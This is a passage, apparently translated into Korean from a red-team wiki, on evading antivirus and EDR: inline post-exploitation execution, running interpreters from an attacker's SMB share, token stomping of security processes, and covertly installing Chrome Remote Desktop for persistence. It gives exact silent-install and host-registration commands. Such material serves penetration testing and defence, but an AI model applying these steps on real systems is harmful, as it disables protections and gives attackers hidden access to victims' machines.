<figure><img src="../images/image (215).png" alt=""><figcaption></figcaption></figure>

- **Inline**

이는 포스트 익스플로잇 악성 코드를 **자신의 프로세스에** 인젝션하는 방식입니다. 이렇게 하면 새 프로세스를 생성하여 AV에 스캔되게 하는 것을 피할 수 있지만, 페이로드 실행 중 문제가 발생하면 프로세스가 크래시할 수 있어 **beacon을 잃을** **가능성이 훨씬 더 큽니다.**

<figure><img src="../images/image (1136).png" alt=""><figcaption></figcaption></figure>

> [!TIP]
> C# Assembly 로딩에 대해 더 읽고 싶다면 이 글 [https://securityintelligence.com/posts/net-execution-inlineexecute-assembly/](https://securityintelligence.com/posts/net-execution-inlineexecute-assembly/)와 그들의 InlineExecute-Assembly BOF ([https://github.com/xforcered/InlineExecute-Assembly](https://github.com/xforcered/InlineExecute-Assembly))를 확인하세요.

또한 C# 어셈블리를 **PowerShell에서** 로드할 수 있습니다. [Invoke-SharpLoader](https://github.com/S3cur3Th1sSh1t/Invoke-SharpLoader)와 [S3cur3th1sSh1t's video](https://www.youtube.com/watch?v=oe11Q-3Akuk)를 확인해 보세요.

## Using Other Programming Languages

As proposed in [**https://github.com/deeexcee-io/LOI-Bins**](https://github.com/deeexcee-io/LOI-Bins), 취약한 시스템이 **공격자가 제어하는 SMB 공유에 설치된 인터프리터 환경에 대한 접근**을 가지도록 하면 다른 언어를 사용해 악성 코드를 실행할 수 있습니다.

SMB 공유에서 인터프리터 바이너리와 환경에 대한 접근을 허용함으로써 취약한 머신의 메모리 내에서 이러한 언어들로 **임의의 코드를 실행할 수 있습니다.**

해당 리포는 다음과 같이 언급합니다: Defender는 여전히 스크립트를 스캔하지만 Go, Java, PHP 등을 활용하면 **정적 시그니처를 우회할 유연성**이 더 생깁니다. 이러한 언어들로 작성된 랜덤한 난독화되지 않은 리버스 셸 스크립트로 테스트한 결과 성공을 거두었습니다.

## TokenStomping

Token stomping은 공격자가 **액세스 토큰이나 EDR 또는 AV 같은 보안 제품을 조작**할 수 있게 하는 기법으로, 프로세스가 종료되지 않도록 권한을 낮추되 악성 활동을 검사할 권한은 없게 만듭니다.

이를 방지하기 위해 Windows는 보안 프로세스의 토큰에 대해 **외부 프로세스가** 핸들을 얻는 것을 차단할 수 있습니다.

- [**https://github.com/pwn1sher/KillDefender/**](https://github.com/pwn1sher/KillDefender/)
- [**https://github.com/MartinIngesen/TokenStomp**](https://github.com/MartinIngesen/TokenStomp)
- [**https://github.com/nick-frischkorn/TokenStripBOF**](https://github.com/nick-frischkorn/TokenStripBOF)

## Using Trusted Software

### Chrome Remote Desktop

이 블로그 포스트([**this blog post**](https://trustedsec.com/blog/abusing-chrome-remote-desktop-on-red-team-operations-a-practical-guide))에 설명된 바와 같이, 피해자 PC에 Chrome Remote Desktop을 배포한 뒤 이를 통해 탈취하고 지속성을 유지하는 것은 쉽습니다:
1. https://remotedesktop.google.com/에서 다운로드하고, "Set up via SSH"를 클릭한 다음 Windows용 MSI 파일을 클릭하여 MSI 파일을 다운로드합니다.
2. 피해자 시스템에서 설치 프로그램을 무음으로 실행합니다(관리자 권한 필요): `msiexec /i chromeremotedesktophost.msi /qn`
3. Chrome Remote Desktop 페이지로 돌아가서 Next를 클릭합니다. 마법사가 권한 부여를 요청하면 Authorize 버튼을 클릭하여 계속합니다.
4. 일부 매개변수를 조정하여 다음 명령을 실행합니다: `"%PROGRAMFILES(X86)%\Google\Chrome Remote Desktop\CurrentVersion\remoting_start_host.exe" --code="YOUR_UNIQUE_CODE" --redirect-url="https://remotedesktop.google.com/_/oauthredirect" --name=%COMPUTERNAME% --pin=111111` (참고: --pin 매개변수는 GUI를 사용하지 않고 PIN을 설정할 수 있게 해줍니다.)
